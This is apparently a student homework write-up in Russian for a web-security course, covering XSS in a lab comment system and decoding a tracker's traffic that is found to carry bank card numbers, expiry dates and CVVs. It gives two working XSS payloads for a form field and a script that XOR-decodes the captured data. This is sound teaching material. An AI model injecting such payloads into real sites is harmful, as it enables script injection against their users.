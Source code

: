 # 05.03.01. JavaScript - Лебедев Д.С.
https://github.com/netology-code/ibweb-homeworks/blob/master/04_js/README.md

[Задание .pdf](_att/050302/050302_Домашнее%20задание%20к%20занятию%20«1.4.%20JavaScript».pdf)
### Задание «Комментарии»
Для выполнения XSS-атаки, приводящей к выполнению кода `alert('pwned')` в системе комментариев, найдены примеры payload-ов, которые следует ввести в поле формы "Имя":

1. Вариант - XSS через атрибут onclick:
```html
<button onclick="alert('pwned')">Click me</button>
```

Результат - при нажатии на кнопку.

![](_att/050302/050302-01-01.png)  

2. Вариант 2 - XSS через обработчик событий в HTML-тегах:
```html
<img src=x onerror=alert('pwned')>
```

![](_att/050302/050302-01-02.png)  

Результат при обновлении страницы

### Задание «Трекер»*
Трекер передал запрос с зашифрованными данными:

```sh
curl 'http://localhost:9002/api/track' \
  -X POST \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Accept-Encoding: gzip, deflate, br, zstd' \
  -H 'Referer: http://localhost:9002/' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: 549adc13778ff712967357ec3c42209c9e0437d56f5e5b18bab4bf71d72f8a4b' \
  -H 'Origin: http://localhost:9002' \
  -H 'Connection: keep-alive' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Priority: u=4' \
  --data-raw '{"traceId":"Ag0AVlBZBAYCAg1TUwIEBwwDAgYMDl9SAVkGBggBC1AMUwMACwNUAgdWBFQDVgINVFJaDFRSAAJdAwVXD1UFUw","total":79974}'
```

![](_att/050302/050302-02-01.png)  

Можно попытаться расшифровать `traceId` чтобы доказать, что трекер передает конфиденциальные данные.  
Пишем скрипт и выполняем в консоли:

```js
function decryptTrackerData() {
    const apikey = '549adc13778ff712967357ec3c42209c9e0437d56f5e5b18bab4bf71d72f8a4b';
    const traceId = "AQUJVFVSCwYCAg1TUwIEBwwDAgYADlxZAlEOAAYKCFEKUgECAQ5XAABRB1YBUQYOUlZRA1JSAwVQBwNQAFkHVA";
    
    const base64Decoded = atob(traceId);
    const decrypted = base64Decoded.split('').map((char, index) => 
        String.fromCharCode(char.charCodeAt(0) ^ apikey.charCodeAt(index))
    ).join('');
    
    const parts = decrypted.split(':');
    
    console.log('Номер карты:', parts[1]);
    console.log('Срок:', parts[2] + '/' + parts[3]);
    console.log('CVV:', parts[4]);
}

decryptTrackerData();
```

Результат:

  ![](_att/050302/050302-02-02.png)  

Вывод: Расшифровка показывает прямые доказательства кражи данных. Трекер собирает конфиденциальные данные:
- Полный номер банковской карты
- Срок действия
- CVV код (добивает случайными цифрами)

Схема работы: 
- Пользователь вводит данные 
- Трекер их перехватывает
- Шифрует
- Отправляет злоумышленникам

Таким образом, трекер является вредоносным инструментом для кражи банковских данных

---
```
инъекции верны, принимается
```